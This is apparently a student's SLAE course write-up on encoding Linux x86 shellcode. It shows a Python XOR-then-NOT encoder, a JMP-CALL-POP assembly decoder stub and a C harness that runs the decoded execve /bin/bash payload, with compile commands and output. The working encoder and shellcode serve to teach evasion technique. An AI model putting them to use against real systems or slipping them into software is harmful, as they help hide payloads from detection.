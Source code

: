 # SLAE course
This blog post has been created for completing the requirements of the SecurityTube Linux.

Assembly Expert certification:
* https://www.pentesteracademy.com/course?id=3

Student ID: SLAE-1523

## Assignment#4: What to do ?
For this assignment we have to:
* Create a custom encoding scheme 

Now, let's get to work.
=
## 1) The encryption routine:

To do this task, I have chosen to use a two step encoding schema. The python code, used for this task, will go through the shellcode provided inside the 'shellcode' variable and then apply its encoder routine on each Byte.

As said before, the shellcode will be encoded in two steps:
1) Each Byte will be XOR with the 0xAA Byte,
2) Then a NOT operation will be done

Below is the python code used to encode the shellcode:
```python
#!/usr/bin/python3
# Python XOR and NOT encoder

# The shellcode used is a basic systemcall to execve
shellcode = b"\x31\xdb\x53\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x31\xc9\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"
encoded_shellcode = ""

print('Shellcode len: {}'.format(len(shellcode)))
print('Encoded shellcode ...')

# Each Bytes of the shellcode will be encoded two times using a XOR then a NOT encoder
for x in bytearray(shellcode):
	# XOR encoder:
	# 0xAA is the Byte used to encode
	y = x ^ 0xAA

	# NOT encoder:
	y = ~y
	encoded_shellcode += '{},'.format(hex(y & 0xFF))

# Print the encoded shellcode
print(encoded_shellcode)
```
Here is the results from the python encoder:
```console
kali@kali:/tmp$ python3 encoder.py 
Shellcode len: 30
Encoded shellcode ...
0x64,0x8e,0x6,0x3d,0x37,0x34,0x26,0x3d,0x3d,0x37,0x3c,0x3b,0x7a,0x3d,0x7a,0x7a,0x7a,0x7a,0xdc,0xb6,0x64,0x9c,0x64,0x87,0x64,0x95,0xe5,0x5e,0x98,0xd5,
```

## 2) The decryption routine:

The 'decoder.nasm' file use the famous JUMP-CALL-POP technique to avoid NULL BYTES.

We can divide this decryption routine in four steps:
1) The JUMP PART of the assembly code will first initialize ecx to NULL then move the length of the shellcode inside cl. It will finally jump inside the CALL section.
```nasm
;JUMP PART
_start:
    xor ecx, ecx                    ;Initialize ecx to NULL
    mov cl, shellcodeLen            ;Initialize cl to the shellcode length
    jmp stage1                      ;Jump to the CALL part (stage1)
```

2) The CALL PART will call the 'stage2' of the code by jumping to it and push the 'shellcode' variable on the stack
```nasm
;CALL PART
stage1:
    call stage2                     ;Call the second part (stage2)
    ;The encoded shellcode is stored here
    shellcode: db 0x64,0x8e,0x6,0x3d,0x37,0x34,0x26,0x3d,0x3d,0x37,0x3c,0x3b,0x7a,0x3d,0x7a,0x7a,0x7a,0x7a,0xdc,0xb6,0x64,0x9c,0x64,0x87,0x64,0x95,0xe5,0x5e,0x98,0xd5
    shellcodeLen: equ $-shellcode   ;This lign is used to get the shellcode length
```

3) The POP PART will simply pop the 'shellcode' variable inside esi and let the execution continues. The decoding process start by using the NOT and XOR logical operations on each Byte of the shellcode.
```nasm
;DECRYPTION PART
stage3:
    not BYTE [esi]                  ;Start the decryption process by a NOT on the value pointed by esi
    xor BYTE [esi], 0xAA            ;Then XOR the value pointed by esi with 0xAA
    inc esi                         ;Increment the address stores inside esi
    loop stage3                     ;Loop until the cl == 0, which means the shellcode is decoded
```

4) Finally, we jump in and execute the decoded shellcode 
```nasm
jmp shellcode                   ;Jump to the decoded shellcode and execute it
```

Below is the whole assembly code described above:
```nasm
;A simple NOT and XOR decoder using the JUMP-CALL-POP method

global _start

;JUMP PART
_start:
    xor ecx, ecx                    ;Initialize ecx to NULL
    mov cl, shellcodeLen            ;Initialize cl to the shellcode length
    jmp stage1                      ;Jump to the CALL part (stage1)

;POP PART
stage2:
    pop esi                         ;Pop the shellcode inside esi

;DECRYPTION PART
stage3:
    not BYTE [esi]                  ;Start the decryption process by a NOT on the value pointed by esi
    xor BYTE [esi], 0xAA            ;Then XOR the value pointed by esi with 0xAA
    inc esi                         ;Increment the address stores inside esi
    loop stage3                     ;Loop until the cl == 0, which means the shellcode is decoded

    jmp shellcode                   ;Jump to the decoded shellcode and execute it

;CALL PART
stage1:
    call stage2                     ;Call the second part (stage2)
    ;The encoded shellcode is stored here
    shellcode: db 0x64,0x8e,0x6,0x3d,0x37,0x34,0x26,0x3d,0x3d,0x37,0x3c,0x3b,0x7a,0x3d,0x7a,0x7a,0x7a,0x7a,0xdc,0xb6,0x64,0x9c,0x64,0x87,0x64,0x95,0xe5,0x5e,0x98,0xd5
    shellcodeLen: equ $-shellcode   ;This lign is used to get the shellcode length
```

Let's compile and get the hexadecimal representation from it:
```console
kali@kali:/$ nasm -f elf32 -o decoder.o decoder.nasm
kali@kali:/$ ld -m elf_i386 -z execstack -o decoder decoder.o
kali@kali:/$ objdump -d ./decoder |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x31\xc9\xb1\x1e\xeb\x0b\x5e\xf6\x16\x80\x36\xaa\x46\xe2\xf8\xeb\x05\xe8\xf0\xff\xff\xff\x64\x8e\x06\x3d\x37\x34\x26\x3d\x3d\x37\x3c\x3b\x7a\x3d\x7a\x7a\x7a\x7a\xdc\xb6\x64\x9c\x64\x87\x64\x95\xe5\x5e\x98\xd5"
```

We can now add the newly generated shellcode to the following C code:
```c
#include <stdio.h>
#include <string.h>

// The shellcode is stored here
unsigned char shellcode[] = \
"\x31\xc9\xb1\x1e\xeb\x0b\x5e\xf6\x16\x80\x36\xaa\x46\xe2\xf8\xeb\x05\xe8\xf0\xff\xff\xff\x64\x8e\x06\x3d\x37\x34\x26\x3d\x3d\x37\x3c\x3b\x7a\x3d\x7a\x7a\x7a\x7a\xdc\xb6\x64\x9c\x64\x87\x64\x95\xe5\x5e\x98\xd5";

int main()
{
	// Print the length of the shellcode
	printf("Shellcode Length:  %d\n", strlen(shellcode));

	// Convert shellcode to a function
	int (*ret)() = (int(*)())shellcode;

	// Execute the shellcode
	ret();
}
```

let's compile and execute it:
```console
kali@kali:/tmp$ gcc test_shellcode.c -o test_shellcode -m32 -fno-stack-protector -z execstack
kali@kali:/tmp$ ./test_shellcode
Shellcode Length:  52

kali@kali:/tmp/Shellcode/SLAE/assignment4$ id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),128(lpadmin),132(scanner)
kali@kali:/tmp/Shellcode/SLAE/assignment4$ whoami
kali
kali@kali:/tmp/Shellcode/SLAE/assignment4$ exit
exit

kali@kali:/tmp$
```

